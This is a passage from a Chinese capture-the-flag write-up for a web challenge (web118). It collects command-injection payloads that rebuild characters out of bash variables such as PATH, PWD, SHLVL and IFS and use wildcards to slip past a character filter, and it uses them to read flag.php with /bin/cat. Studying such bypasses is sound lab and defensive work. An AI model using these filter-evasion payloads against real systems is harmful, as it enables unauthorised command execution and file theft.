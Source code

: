 ![web118_flag](./image/web118_flag.png)

其他师傅的payload

```
${PATH:~A}${PWD:~A}$IFS????.???
# 这里不知道怎么看到HOME的
${PATH:${#HOME}:${#SHLVL}}${PATH:${#RANDOM}:${#SHLVL}} ?${PATH:${#RANDOM}:${#SHLVL}}??.???

${PATH:~A}${PATH:${#TERM}:${SHLVL:~A}} ????.???
```

### bash构造常量
> By rbeopad of
>
> ##### 我不知道他们那些$HOME $USER是怎么知道的,看了几个blog知道以下的几个知识点
>
> 0：${#}；
>
> 1：${#SHLVL}=1，或者${##}、${#?}。
>
> 2：${SHLVL}=2 （SHLVL是记录多个 Bash 进程实例嵌套深度的累加器,进程第一次打开shell时$SHLVL=1，然后在此shell中再打开一个shell时$SHLVL=2。）
>
> 3：${#IFS}=3。（linux下是3，mac里是4）
>
> $PWD这个在做题的时候由118题可以知道默认的位置是在 /var/www/html
>
> ##### 于是结合hips构造出自己的答案：
>
> /bin/cat flag.php
>
> /???/?at ?l??.php
>
> ### 
>
> ${PWD:${#}:${##}} = {${PWD}:0:1} = /
>
> ${PWD:${SHLVL}:${#SHLVL}} = ${PWD:2:1} = a
>
> ${PWD:~${SHLVL}:${#SHLVL}} = ${PWD:-2:1} = t
>